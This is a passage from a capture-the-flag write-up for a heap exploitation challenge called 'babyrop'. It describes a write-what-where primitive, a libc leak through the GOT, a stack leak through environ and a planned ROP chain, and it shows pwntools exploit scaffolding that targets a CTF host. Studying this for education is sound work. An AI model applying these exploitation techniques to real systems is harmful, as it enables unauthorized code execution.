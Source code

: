 Yeah, looks like our text, and at the beginning as well.  So, we can simply just write out an 8-byte length and an 8-byte address to index 0 as its `string`, and then use the program read and write menu options with index 7 to read and _write_ _what_ we want, _where_ we want.

That's all we really needed.  Next step would be to write out a size of `6` with `binary.got.puts` as the address, then read it from the program menu to leak libc.  With that in hand, do it again, but this time with `libc.sym.environ` to get a stack leak.  From there we can compute the distance in GDB from the environment to the return address on the stack.  And with that location known, well we just write out a ROP chain.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

def create(p, i, len, s):
    p.sendlineafter(b'command: ',b'C')
    p.sendlineafter(b'index: ',str(i).encode())
    p.sendlineafter(b'_string: ',str(len).encode())
    p.sendlineafter(b'string: ',s)

def free(p, i):
    p.sendlineafter(b'command: ',b'F')
    p.sendlineafter(b'index: ',str(i).encode())

def read(p, i):
    p.sendlineafter(b'command: ',b'R')
    p.sendlineafter(b'index: ',str(i).encode())
    p.recvuntil(b'hex')
    p.recvline()
    return (p.recvline().strip().decode())

def write(p, i, s):
    p.sendlineafter(b'command: ',b'W')
    p.sendlineafter(b'index: ',str(i).encode())
    p.sendlineafter(b'string: ',s)

def exit(p):
    p.sendlineafter(b'command: ',b'E')
    p.sendlineafter(b'index: ', b'0')
```

Above is just some functions to automated the program menu.  This should be fairly self-explanatory.

```python
binary = context.binary = ELF('./babyrop', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

context.log_level = 'INFO'

if args.REMOTE:
    p = remote('mc.ax', 31245)
    offset = 0x140 # guessing based on something close to 0x138 below (just test small offsets in either direction)
else:
    p = process([ld.path, binary.path], env={'LD_PRELOAD': libc.path})
    offset = 0x138 # used gdb to find
```

